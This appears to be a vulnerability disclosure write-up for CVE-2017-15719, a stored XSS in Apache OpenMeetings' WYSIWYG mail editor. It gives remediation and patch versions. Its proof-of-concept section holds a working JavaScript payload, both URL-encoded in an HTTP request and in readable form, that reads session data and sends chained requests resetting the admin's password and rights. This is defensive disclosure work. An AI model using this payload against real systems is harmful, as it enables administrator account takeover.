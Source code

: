 ```yaml
---

layout: post
title: CVE-2017-15719 Wicket jQuery UI XSS in WYSIWYG editor
tagline: Apache OpenMeetings 4.0.1 Vulnerability Report
---
```


### Description:

It was identified that one of the components of Apache OpenMeetings v 4.0.1 is vulnerable to [Persistent Cross Site Scripting](https%3A%2F%2Fwww.owasp.org%2Findex.php%2FCross-site_Scripting_%28XSS%29) vulnerability. An attacker can exploit these vulnerabilities to hijack admin user's browser along with the data stored in it.  

### Affected Component: wicket-jquery-ui

### Affected Versions: <= 6.28.0, <= 7.9.1, <= 8.0.0-M8

### Test Configuration:

Following is needed in order to reproduce this issue:

* Access to two valid user accounts. (`admin` and `user1` in this example)
* A web browser. (Mozilla Firefox in this example)
* An HTTP intercepting proxy (Burp Suite Professional in this example)


### Proof of Concept:

1. Login to `user1` account and navigate to mailbox by clicking on `Contacts and messages`  button as shown.

   ![Mailbox](/assets/images/apache_openmeetings/1.png)

2. Create a new email to `admin` user with following contents and click on send.

   ![](/assets/images/apache_openmeetings/2.png)

3. Intercept the request and replace the `message:textarea` parameter value as shown and forward the request.  

   ```markdown
   POST /openmeetings/?1-1.0-main~container-main-newMessageDialog HTTP/1.1
   Host: localhost:5080
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:48.0) Gecko/20100101 Firefox/48.0
   Accept: application/xml, text/xml, */*; q=0.01
   Accept-Language: en-US,en;q=0.5
   Accept-Encoding: gzip, deflate
   Content-Type: application/x-www-form-urlencoded; charset=UTF-8
   Wicket-Ajax: true
   Wicket-Ajax-BaseURL: .
   Wicket-FocusedElementId: btnad
   X-Requested-With: XMLHttpRequest
   Referer: http://localhost:5080/openmeetings/
   Content-Length: 5854
   Cookie: wicketDebugBarState=collapsed; JSESSIONID=EBF252840768E072D61FB49991CEC0B6
   Connection: close

   to=1&subject=Hello&message%3Atextarea=`This%20mail%20was%20sent%20accidently%20to%20you%2C%20please%20ignore%20this.%0A%3Cscript%3E%0A%20%20%20%20%20%20function%20x%28%29%0A%20%20%20%20%20%20%7B%0A%09%09var%20u%3B%0A%09%09var%20uid%3B%0A%09%09var%20data%20%3D%20%22%22%3B%0A%09%09%09for%20%28var%20i%3D0%3B%20i%20%3C%20document.scripts.length%3B%20i%20%2b%2b%29%7B%0A%09%09%09%09data%20%2b%3D%20document.scripts%5Bi%5D.text%3B%0A%09%09%09%7D%0A%09%09%09var%20m%20%3D%20data.match%28%2f%5E.%2a%3F%5C%28%5C%7B%5C%22u%5C%22%5C%3A%5C%22%5C.%5C%2f%28.%2a%3F%29%5C%22%5C%7D%5C%29%5C%3B%5C%3B%24%2fim%29%3B%0A%09%09%09u%20%3D%20m%5B1%5D%3B%0A%09%09%09%0A%09%09%09for%20%28var%20i%3D0%3Bi%20%3C%20document.getElementsByClassName%28%22sub%20ui-menu-item%22%29.length%3Bi%2b%2b%29%7B%0A%09%09%09%09if%20%28document.getElementsByClassName%28%22sub%20ui-menu-item%22%29%5Bi%5D.title%20%3D%3D%20%22Manage%20users%20and%20rights%22%29%7B%0A%09%09%09%09%09uid%20%3D%20document.getElementsByClassName%28%22sub%20ui-menu-item%22%29%5Bi%5D.id%3B%0A%09%09%09%09%09break%3B%0A%09%09%09%09%7D%0A%09%09%09%7D%0A%09%09%09y1%28u%2Cuid%29%3B%0A%09%09%7D%0A%09%09%0A%09function%20y1%28u%2Cuid%29%7B%0A%09%09var%20ul%20%3D%20%22http%3A%2f%2flocalhost%3A5080%2fopenmeetings%2f%22%2bu%2b%22main%7Econtainer-main-topControls-menu-menu%26hash%3D%22%2buid%2b%22%26_%3D%22%3B%0A%09%09var%20b%20%3D%20new%20XMLHttpRequest%28%29%3B%0A%09%09b.open%28%22GET%22%2Cul%2Ctrue%29%3B%0A%09%09b.setRequestHeader%28%22Accept%22%2C%20%22application%5C%2fxml%2C%20text%5C%2fxml%2C%20%2a%5C%2f%2a%3B%20q%3D0.01%22%29%3B%0A%20%20%20%20%20%20%20%20b.setRequestHeader%28%22Accept-Language%22%2C%20%22en-US%2Cen%3Bq%3D0.5%22%29%3B%0A%20%20%20%20%20%20%20%20b.setRequestHeader%28%22Wicket-Ajax%22%2C%22true%22%29%3B%0A%09%09b.setRequestHeader%28%22Wicket-Ajax-BaseURL%22%2C%22.%22%29%3B%0A%09%09b.setRequestHeader%28%22X-Requested-With%22%2C%22XMLHttpRequest%22%29%3B%0A%09%09b.responseType%20%3D%20%22document%22%3B%0A%09%09b.overrideMimeType%28%27text%2fxml%27%29%3B%0A%09%09b.onload%20%3D%20function%28%29%7B%0A%09%09%09y2%28u%29%3B%0A%09%09%7D%0A%09%09b.send%28%29%3B%09%0A%09%7D%0A%09%0A%09function%20y2%28u%29%7B%0A%09%09var%20ul%20%3D%20%22http%3A%5C%2f%5C%2flocalhost%3A5080%5C%2fopenmeetings%5C%2f%22%2bu%2b%22main%7Econtainer-main-contents-child-listContainer-userList-1%26_%3D1513604035452%22%3B%0A%09%09var%20xhr%20%3D%20new%20XMLHttpRequest%28%29%3B%0A%09%09xhr.open%28%22GET%22%2Cul%2Ctrue%29%3B%0A%09%09xhr.setRequestHeader%28%22Accept%22%2C%20%22application%5C%2fxml%2C%20text%5C%2fxml%2C%20%2a%5C%2f%2a%3B%20q%3D0.01%22%29%3B%0A%20%20%20%20%20%20%20%20xhr.setRequestHeader%28%22Accept-Language%22%2C%20%22en-US%2Cen%3Bq%3D0.5%22%29%3B%0A%20%20%20%20%20%20%20%20xhr.setRequestHeader%28%22Wicket-Ajax%22%2C%22true%22%29%3B%0A%09%09xhr.setRequestHeader%28%22Wicket-Ajax-BaseURL%22%2C%22.%22%29%3B%0A%09%09xhr.setRequestHeader%28%22X-Requested-With%22%2C%22XMLHttpRequest%22%29%3B%0A%09%09xhr.overrideMimeType%28%27text%2fxml%27%29%3B%0A%09%09xhr.onload%20%3D%20function%28%29%20%7B%0A%09%09%09var%20t%20%3D%20this.responseXML.documentElement.getElementsByTagName%28%27component%27%29%5B0%5D.textContent%3B%0A%09%09%09var%20d%20%3D%20new%20DOMParser%28%29.parseFromString%28t%2C%22text%2fxml%22%29%3B%0A%09%09%09var%20r%20%3D%20d.getElementsByName%28%27comunity%3Acommunity_settings%27%29%5B1%5D.getAttribute%28%27value%27%29%3B%0A%09%09%09z%28u%2Cr%29%3B%0A%09%09%7D%0A%09%09xhr.responseType%20%3D%20%22document%22%3B%0A%09%09xhr.send%28%29%3B%0A%09%7D%0A%09%0A%09function%20z%28u%2Cr%29%0A%20%20%20%20%20%20%7B%0A%20%20%20%20%20%20%20%20var%20xhr%20%3D%20new%20XMLHttpRequest%28%29%3B%0A%20%20%20%20%20%20%20%20xhr.open%28%22POST%22%2C%20%22http%3A%5C%2f%5C%2flocalhost%3A5080%5C%2fopenmeetings%5C%2f%22%2bu%2b%22main%7Econtainer-main-contents-child-form-buttons-ajax%7Esave%7Ebutton%22%2C%20true%29%3B%0A%20%20%20%20%20%20%20%20xhr.setRequestHeader%28%22Accept%22%2C%20%22application%5C%2fxml%2C%20text%5C%2fxml%2C%20%2a%5C%2f%2a%3B%20q%3D0.01%22%29%3B%0A%20%20%20%20%20%20%20%20xhr.setRequestHeader%28%22Accept-Language%22%2C%20%22en-US%2Cen%3Bq%3D0.5%22%29%3B%0A%20%20%20%20%20%20%20%20xhr.setRequestHeader%28%22Content-Type%22%2C%20%22application%5C%2fx-www-form-urlencoded%3B%20charset%3DUTF-8%22%29%3B%0A%20%20%20%20%20%20%20%20xhr.setRequestHeader%28%22Wicket-Ajax%22%2C%22true%22%29%3B%0A%09%09xhr.setRequestHeader%28%22Wicket-Ajax-BaseURL%22%2C%22.%22%29%3B%0A%09%09xhr.setRequestHeader%28%22X-Requested-With%22%2C%22XMLHttpRequest%22%29%3B%0A%20%20%20%20%20%20%20%20xhr.withCredentials%20%3D%20true%3B%0A%20%20%20%20%20%20%20%20var%20body%20%3D%20%22login%3Dadmin%26password%3DPass@123%26general%253Aaddress.email%3Dadmin%2540localhost.com%26general%253Asalutation%3Dmr%26general%253Afirstname%3Dadminhijacked%26general%253Alastname%3Dadminhijacked%26general%253AtimeZoneId%3D281%26general%253AlanguageId%3D1%26general%253Aaddress.phone%3D%26general%253Aage%3D27%252F11%252F17%26general%253Aaddress.street%3D%26general%253Aaddress.additionalname%3D%26general%253Aaddress.zip%3D%26general%253Aaddress.town%3D%26general%253Aaddress.country%3DIN%26general%253Aaddress.comment%3D%26general%253AgroupUsers%3D1%26type%3D0%26rights%3DRoom%26rights%3DSoap%26rights%3DDashboard%26rights%3DAdmin%26rights%3DLogin%26comunity%253Acommunity_settings%3D%22%2br%2b%22%26comunity%253AuserOffers%3D%26comunity%253AuserSearchs%3D%26buttons%253Aajax-save-button%3D1%22%3B%0A%20%20%20%20%20%20%20%20var%20aBody%20%3D%20new%20Uint8Array%28body.length%29%3B%0A%20%20%20%20%20%20%20%20for%20%28var%20i%20%3D%200%3B%20i%20%3C%20aBody.length%3B%20i%2b%2b%29%0A%20%20%20%20%20%20%20%20%20%20aBody%5Bi%5D%20%3D%20body.charCodeAt%28i%29%3B%20%0A%20%20%20%20%20%20%20%20xhr.send%28new%20Blob%28%5BaBody%5D%29%29%3B%0A%20%20%20%20%20%20%7D%09%09%0A%20%20%20%20%20%20x%28%29%3B%0A%3C%2fscript%3E`
   ```

4. URL encoded payload shown in above request when executed will send a sequence of requests to change `admin` user's `firstname` ,`lastname` and `password`.

   *Note: For working of the exploit code shown below, **hostname** needs to updated accordingly.*

   ```javascript

   // Fetch user uid values from current DOM

   <script>
         function x()
         {
   		var u;
   		var uid;
   		var data = "";
   			for (var i=0; i < document.scripts.length; i ++){
   				data += document.scripts[i].text;
   			}
   			var m = data.match(/^.*?\(\{\"u\"\:\"\.\/(.*?)\"\}\)\;\;$/im);
   			u = m[1];

   			for (var i=0;i < document.getElementsByClassName("sub ui-menu-item").length;i++){
   				if (document.getElementsByClassName("sub ui-menu-item")[i].title == "Manage users and rights"){
   					uid = document.getElementsByClassName("sub ui-menu-item")[i].id;
   					break;
   				}
   			}
   			y1(u,uid);
   		}

    // mandatory request to fulfill entire requests chain

   	function y1(u,uid){
   		var ul = "http://localhost:5080/openmeetings/"+u+"main~container-main-topControls-menu-menu&hash="+uid+"&_=";
   		var b = new XMLHttpRequest();
   		b.open("GET",ul,true);
   		b.setRequestHeader("Accept", "application\/xml, text\/xml, *\/*; q=0.01");
           b.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
           b.setRequestHeader("Wicket-Ajax","true");
   		b.setRequestHeader("Wicket-Ajax-BaseURL",".");
   		b.setRequestHeader("X-Requested-With","XMLHttpRequest");
   		b.responseType = "document";
   		b.overrideMimeType('text/xml');
   		b.onload = function(){
   			y2(u);
   		}
   		b.send();
   	}

    // Get community_settings value

   	function y2(u){
   		var ul = "http:\/\/localhost:5080\/openmeetings\/"+u+"main~container-main-contents-child-listContainer-userList-1&_=1513604035452";
   		var xhr = new XMLHttpRequest();
   		xhr.open("GET",ul,true);
   		xhr.setRequestHeader("Accept", "application\/xml, text\/xml, *\/*; q=0.01");
           xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
           xhr.setRequestHeader("Wicket-Ajax","true");
   		xhr.setRequestHeader("Wicket-Ajax-BaseURL",".");
   		xhr.setRequestHeader("X-Requested-With","XMLHttpRequest");
   		xhr.overrideMimeType('text/xml');
   		xhr.onload = function() {
   			var t = this.responseXML.documentElement.getElementsByTagName('component')[0].textContent;
   			var d = new DOMParser().parseFromString(t,"text/xml");
   			var r = d.getElementsByName('comunity:community_settings')[1].getAttribute('value');
   			z(u,r);
   		}
   		xhr.responseType = "document";
   		xhr.send();
   	}

    // Final password change request

   	function z(u,r)
         {
           var xhr = new XMLHttpRequest();
           xhr.open("POST", "http:\/\/localhost:5080\/openmeetings\/"+u+"main~container-main-contents-child-form-buttons-ajax~save~button", true);
           xhr.setRequestHeader("Accept", "application\/xml, text\/xml, *\/*; q=0.01");
           xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
           xhr.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded; charset=UTF-8");
           xhr.setRequestHeader("Wicket-Ajax","true");
   		xhr.setRequestHeader("Wicket-Ajax-BaseURL",".");
   		xhr.setRequestHeader("X-Requested-With","XMLHttpRequest");
           xhr.withCredentials = true;
           var body = "login=admin&password=Pass@123&general%3Aaddress.email=admin%40localhost.com&general%3Asalutation=mr&general%3Afirstname=adminhijacked&general%3Alastname=adminhijacked&general%3AtimeZoneId=281&general%3AlanguageId=1&general%3Aaddress.phone=&general%3Aage=27%2F11%2F17&general%3Aaddress.street=&general%3Aaddress.additionalname=&general%3Aaddress.zip=&general%3Aaddress.town=&general%3Aaddress.country=IN&general%3Aaddress.comment=&general%3AgroupUsers=1&type=0&rights=Room&rights=Soap&rights=Dashboard&rights=Admin&rights=Login&comunity%3Acommunity_settings="+r+"&comunity%3AuserOffers=&comunity%3AuserSearchs=&buttons%3Aajax-save-button=1";
           var aBody = new Uint8Array(body.length);
           for (var i = 0; i < aBody.length; i++)
             aBody[i] = body.charCodeAt(i);
           xhr.send(new Blob([aBody]));
         }		
         x();
   </script>
   ```

   ​

5. Login to `admin` user account in a private browser window and navigate to mailbox by following `step1`.

6. Open the email sent by `user1` and observe that the application sends a sequence of XHR requests while executing our *XSS* payload.

  ![](/assets/images/apache_openmeetings/4.png)

  ![](/assets/images/apache_openmeetings/6.png)

7. Navigate to `Profile` settings of `admin` user and observe that first and last name has changed successfully as defined in the exploit code shown in `Step 4`.

   ![](/assets/images/apache_openmeetings/5.png)

8. We can now login to admin account with password `Pass@123` as defined in exploit.

   ![](/assets/images/apache_openmeetings/7.png)

   ![](/assets/images/apache_openmeetings/8.png)


### Remediation:

It is recommended to validate user input and implement  **[Context Specific Filtering](https%3A%2F%2Fwww.owasp.org%2Findex.php%2FXSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet)** in application response.


### Vendor Patches:

This issue was fixed in **wicket-jquery-ui** versions **6.28.1**, **7.9.2** and **8.0.0-M8.1**. All Users are recommended to upgrade to [Apache OpenMeetings 4.0.2](https://openmeetings.apache.org/downloads.html).
